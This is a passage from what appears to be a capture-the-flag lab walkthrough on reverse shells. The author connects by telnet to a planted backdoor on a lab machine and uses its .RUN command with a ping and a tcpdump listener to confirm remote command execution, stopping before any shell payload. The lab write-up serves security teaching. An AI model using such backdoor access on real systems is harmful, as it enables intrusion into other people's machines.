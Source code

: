 </figure>

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

#### Answer
Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
```bash
$ telnet 10.10.230.252 8012  
Trying 10.10.230.252...
Connected to 10.10.230.252.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```

Great! It's an open telnet connection! What welcome message do we receive?
- **SKIDY'S BACKDOOR.**

Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N).
```bash
$ telnet 10.10.230.252 8012  
Trying 10.10.230.252...
Connected to 10.10.230.252.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
.RUN ls
```
The answer is **N**o.

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. Run this tcpdump listener that spesifically listening for ICMP traffic.
```bash
$ sudo tcpdump ip proto \\icmp -i tun0
```

Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
```bash
# run the command
$ telnet 10.10.230.252 8012 
Trying 10.10.230.252...
Connected to 10.10.230.252.
.RUN ping 10.11.25.205 -c

# tcpdump output
$ sudo tcpdump ip proto \\icmp -i tun0
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
23:35:38.242194 IP 10.10.230.252 > 10.11.25.205: ICMP echo request, id 1250, seq 1, length 64
23:35:38.242216 IP 10.11.25.205 > 10.10.230.252: ICMP echo reply, id 1250, seq 1, length 64
23:35:39.243159 IP 10.10.230.252 > 10.11.25.205: ICMP echo request, id 1250, seq 2, length 64
23:35:39.243172 IP 10.11.25.205 > 10.10.230.252: ICMP echo reply, id 1250, seq 2, length 64
```
The answer is **Y**es. Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
 